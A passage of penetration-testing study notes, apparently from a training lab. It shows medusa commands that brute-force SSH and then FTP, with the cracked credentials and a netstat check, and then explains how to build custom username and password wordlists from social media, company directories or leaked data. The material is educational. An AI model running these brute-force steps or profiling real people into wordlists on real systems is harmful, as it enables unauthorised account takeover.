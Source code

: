 ```shell
medusa -h 94.237.49.98 -n 54513 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

[redacted]
2025-03-03 23:56:45 ACCOUNT FOUND: [ssh] Host: 94.237.49.98 User: sshuser Password: 1q2w3e4r5t
```

So then I logged in with this credentials: `sshuser:1q2w3e4r5t`. Once inside, I'll check for other services running inside the machine with:

```shell
netstat -tulpn | grep LISTEN

[redacted]
tcp        0      0 0.0.0.0:22         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22              :::*                    LISTEN      -                   
tcp6       0      0 :::21              :::*                    LISTEN      -
```

As ftp is running, I'll brute force it with medusa again (inside the machine):
- I know that the ftp user is called `ftpuser` because we can check the content of `/etc/passwd`

```shell
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

[redacted]
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]
```

So we've got credentials: `ftpuser:qqww1122`. We can the get the flag.

# Custom Wordlists

While pre-made wordlists like `rockyou` or `SecLists` provide an extensive repository of potential passwords and usernames, they operate on a broad spectrum, casting a wide net in the hopes of catching the right combination. While effective in some scenarios, this approach can be inefficient and time-consuming, especially when targeting specific individuals or organizations with unique password or username patterns.

Consider the scenario where a pentester attempts to compromise the account of "Thomas Edison" at his workplace. A generic username list like `xato-net-10-million-usernames-dup.txt` is unlikely to yield any meaningful results. Given the potential username conventions enforced by his company, the probability of his specific username being included in such a massive dataset is minimal. These could range from a straightforward first name/last name format to more intricate combinations like last name/first three.

In such cases, the power of custom wordlists comes into play. These meticulously crafted lists, tailored to the specific target and their environment, dramatically increase brute-force attacks' efficiency and success rate. They leverage information gathered from various sources, such as social media profiles, company directories, or even leaked data, to create a focused and highly relevant set of potential passwords and usernames. This laser-sharp approach minimizes wasted effort and maximizes the chances of cracking the target account.

## Username Anarchy
